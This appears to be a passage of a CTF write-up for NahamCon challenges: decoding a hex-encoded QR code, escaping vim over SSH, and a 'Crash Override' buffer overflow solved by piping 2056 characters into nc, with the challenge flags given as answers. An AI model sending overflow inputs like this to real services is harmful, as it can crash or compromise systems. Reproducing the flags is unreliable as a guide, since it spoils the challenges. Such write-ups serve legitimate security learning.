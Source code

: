 ### Quirky:

_This file is seems to have some strange pattern..._

_Attachment: `Quirky`_

-----

given file is hex of image raw data we can use [CyberChef](https://gchq.github.io/CyberChef/) to get the image
it will give us QR code after parsing the QRcode it gives the flag

filters to use in CyberChef:
- From Hex
- Render Image
- Parse QR code

```
flag{b7e2a32f5ae629dcfb1ac210d1f0c032}
```

### Exit Vim:

_Ah yes, a bad joke as old as time... can you exit vim?_

Password is "userpass"

`ssh -p 32686 user@challenge.nahamcon.com`

we are inside vim just type:

`:qa!`

to exit vim

```
flag{ccf443b43322be5659150eac8bb2a18c}
```

### Crash Override:

_Remember, hacking is more than just a crime. It's a survival trait._


Connect with:

`nc challenge.nahamcon.com 30443`

Attachment: `Crash Override`

looking at c code we know the buffer size=2048 so after finding padding=8 we can give any input > 2056 and it will give flag
```
python -c "print('a'* 2056)" | nc challenge.nahamcon.com 32216
```

```
flag{de8b6655b538a0bf567b79a14f2669f6}  
```

### Read The Rules:
